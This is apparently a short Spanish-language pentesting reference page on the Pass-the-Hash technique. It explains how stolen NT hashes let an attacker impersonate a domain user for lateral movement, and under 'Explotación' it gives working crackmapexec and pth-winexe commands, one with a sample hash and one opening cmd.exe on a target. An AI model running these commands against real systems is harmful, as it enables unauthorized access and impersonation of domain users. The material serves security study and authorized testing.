 # Pass the Hash

### Descripción

Esta técnica consiste en utilizar los nt-hashes previamente obtenidos para realizar movimiento lateral, saltandose métodos de control e impersonando al usuario del que se tengan los hashes nt. Esto ocurre ya que la contraseña no se guarda en texto plano, sino su formato MD4, esto permite que el tener el hash nt de un usuario del dominio vamos a poder impersonarlo en una autenticacion Net-NTLM, actuando así como si fuesemos él.

### Explotación

```bash
# Con crackmapexec
crackmapexec -u (user) -H (NT Hash) 
crackmapexec smb 192.168.0.109 -u "username" --hash "64f12cddaa88057e06a81b54e73b949b"

# Con pth-winexe
pth-winexe -U <domain/username>%<hash> //<targetIP> cmd.exe
```



## Referencias

{% embed url="https://attack.mitre.org/techniques/T1550/002/" %}
